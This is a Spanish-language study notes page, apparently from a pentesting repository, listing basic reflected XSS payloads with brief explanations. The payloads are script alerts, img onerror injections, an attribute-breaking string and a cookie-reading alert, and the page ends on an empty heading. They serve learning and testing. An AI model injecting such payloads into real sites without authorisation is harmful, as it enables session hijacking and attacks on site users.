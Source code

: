 
---

**Nota:** Ver [4. Fases](4.%20Fases.md)

[Ver tabla de cheat sheet de Portswigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

# Tipos de payloads para XSS

**XSS Reflejado (Reflected XSS)**  

Los siguientes payloads están diseñados para ejecutarse cuando la entrada del usuario se refleja directamente en la respuesta HTML sin una sanitización adecuada. Se usan típicamente en formularios de búsqueda, URLs o parámetros GET/POST.

---

**Payload básico usando etiquetas `<script>`**  
Ideal para probar si se permite la ejecución directa de scripts.

```html
<script>alert(0)</script>
````

---

**Payload con etiqueta `<img>` y atributo `onerror`**  
Útil cuando las etiquetas `<script>` están filtradas pero se pueden inyectar atributos en imágenes u otros elementos HTML.

```html
<img src=/ onerror=alert(0)>
```

---

**Payload con cierre de atributo HTML y ruptura de contexto**  
Este tipo intenta romper la estructura del HTML existente y ejecutar código JavaScript dentro de un atributo.

```html
#"><img src=/ onerror=alert(0)>
```

---

**Payload que accede a cookies**  
Comprobación básica para ver si se puede acceder al `document.cookie`, que puede permitir el robo de sesiones.

```html
<script>alert(document.cookie)</script>
```

---

**Payload con `<img>` para acceder a cookies sin `<script>`**  
Versión alternativa para evadir filtros de etiquetas `<script>`.

